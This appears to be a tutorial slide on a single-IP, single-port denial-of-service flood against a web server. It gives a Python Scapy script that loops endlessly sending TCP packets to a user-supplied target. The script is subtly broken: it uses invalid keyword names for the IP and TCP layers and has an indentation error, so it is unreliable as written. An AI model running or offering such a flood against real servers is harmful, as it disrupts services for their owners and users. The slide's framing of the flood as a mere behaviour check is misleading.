

# Single IP Single port
A large number of packets are sent to web server by using single IP and from single port number. It is a low-level attack which is used to check the behavior of the web server. Its implementation in Python can be done with the help of Scapy.
from scapy.all import *
source_IP = input("Enter Source IP :  ")
target_IP = input("Enter Target IP :  ")
source_port = int(input("Enter Source Port Number:"))
i = 1
while True:
   IP1 = IP(source_IP = source_IP, destination = target_IP)
   TCP1 = TCP(srcport = source_port, dstport = 80)
   pkt = IP1 / TCP1
   send(pkt, inter = .001)
   
   print ("packet sent ", i)
      i = i + 1